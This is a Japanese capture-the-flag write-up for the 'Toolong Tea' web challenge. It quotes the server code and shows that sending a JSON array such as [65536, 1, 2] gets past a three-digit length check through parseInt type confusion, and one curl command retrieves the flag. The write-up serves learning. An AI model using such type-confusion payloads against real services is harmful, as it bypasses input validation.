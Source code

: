 # Toolong Tea:web:100pts
最近東京(TSGの拠点)はめっきり寒くなりました。温かい烏龍茶を1杯いかがでしょう。体が温まりますよ。  

初心者向けヒント  
- まず、問題のウェブサイトを開いて適当に操作してみてください。この問題は「65536」という数をサーバーに送信すればフラグが入手できると主張していますが、話はそんなに単純ではないことがすぐに分かります。  
- 次に、添付されたソースコードを読んでみましょう。このウェブサイトの重要なロジックは`server.js`に書かれています。`flag`変数に入ったフラグを漏洩させるのが目標です。  
- このウェブサイトにはフラグを得るのに利用できるバグがあります。探すのにweb技術(特にJavaScript)の知識が必要になるかもしれません。必要ならMDNなどのドキュメントを参照してください。  
- このウェブサイトは通常のNode.jsアプリと同様に(`npm install && node server.js`)、あるいはdocker composeを利用して(`docker compose up --build`)ローカルで動かせます。  
- なお、この問題を解くのに大量アクセスは必要ありません。DoSまがいの大量アクセスはやめてください。  

[http://34.84.32.212:4932](http://34.84.32.212:4932)  

[toolong_tea.tar.gz](toolong_tea.tar.gz)  

# Solution
URLとソースコードが渡される。  
アクセスすると、数字を送信できるページのようだ。  
![site.png](site/site.png)  
機能がわからないので、配布されたserver.jsを見ると以下のようであった。  
```js
import { serve } from "@hono/node-server";
import { serveStatic } from "@hono/node-server/serve-static";
import { Hono } from "hono";

const flag = process.env.FLAG ?? "TSGCTF{DUMMY}";

const app = new Hono();

app.get("*", serveStatic({ root: "./public" }));

app.post("/", async (c) => {
	try {
		const { num } = await c.req.json();
		if (num.length === 3 && [...num].every((d) => /\d/.test(d))) {
			const i = parseInt(num, 10);
			if (i === 65536) {
				return c.text(`Congratulations! ${flag}`);
			}
			return c.text("Please send 65536");
		}
		if (num.length > 3) {
			return c.text("Too long!");
		}
		return c.text("Please send 3-digit integer");
	} catch {
		return c.text("Invalid JSON", 500);
	}
});

serve({
	fetch: app.fetch,
	port: 4932,
});
```
`65536`を送信できればフラグが得られるようだが、`num.length === 3`で3桁の制限がかかっている。  
3桁で`65536`を表せということらしい。  
`const i = parseInt(num, 10);`が怪しいので挙動を思い出すと以下の通り配列では先頭の要素のみが返る。  
```js
$ node
~~~
> parseInt([123, 4, 5])
123
```
数値はJSONで送信するので、`num`として配列を含めることができる。  
もちろん3要素の配列とすれば`length`は3である。  
以下のように先頭を`65536`とした配列を送信する。  
```bash
$ curl -X POST http://34.84.32.212:4932/ -d '{"num": [65536, 1, 2]}'
Congratulations! TSGCTF{A_holy_night_with_no_dawn_my_dear...}
```
flagが得られた。  

## TSGCTF{A_holy_night_with_no_dawn_my_dear...}